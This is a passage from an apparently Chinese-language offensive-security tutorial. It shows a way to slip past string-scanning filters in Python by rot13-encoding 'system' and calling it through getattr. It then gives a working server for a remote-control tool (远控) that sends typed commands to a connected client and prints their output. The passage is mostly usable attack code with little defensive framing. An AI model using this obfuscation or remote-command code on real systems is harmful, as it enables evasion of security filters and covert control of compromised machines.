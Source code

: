 ###### 4）字符串扫描过滤的通用绕过方法

如果我们已经导入了os，但是system被过滤了，那么就可以借助getattr来绕过

该函数接受两个参数,一个模组或者对象,第二个是一个字符串

~~~python
import os

import codecs
getattr(os, codecs.encode("flfgrz",'rot13'))('ipconfig')
~~~



### 远控

服务端

~~~python
import socket
import os
import threading

# 创建一个 TCP/IP socket 对象
server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# 绑定地址和端口号
server_address = ('10.161.132.21', 12340)
server_socket.bind(server_address)

# 开始监听客户端连接
server_socket.listen(1)
print("等待客户端连接...")

def input_command(client_socket):
    while True:
        # 在服务端上输入命令，并发送到客户端
        command = input("请输入要执行的命令：")
        if not command:
            break
        client_socket.sendall(command.encode('gbk'))

    # 关闭客户端连接
    print(f"与客户端 {client_address} 断开连接")
    client_socket.close()

while True:
    # 接收客户端连接请求
    client_socket, client_address = server_socket.accept()
    print(f'客户端 {client_address} 已连接')

    # 启动一个线程接收用户在服务端上的输入命令
    input_thread = threading.Thread(target=input_command, args=(client_socket,))
    input_thread.start()

    try:
        while True:
            # 接收客户端返回的结果，并打印到服务端
            result = client_socket.recv(4096)
            if not result:
                break
            print(f"执行结果：\n{result.decode('gbk')}")

    finally:
        # 关闭客户端连接
        print(f"与客户端 {client_address} 断开连接")
~~~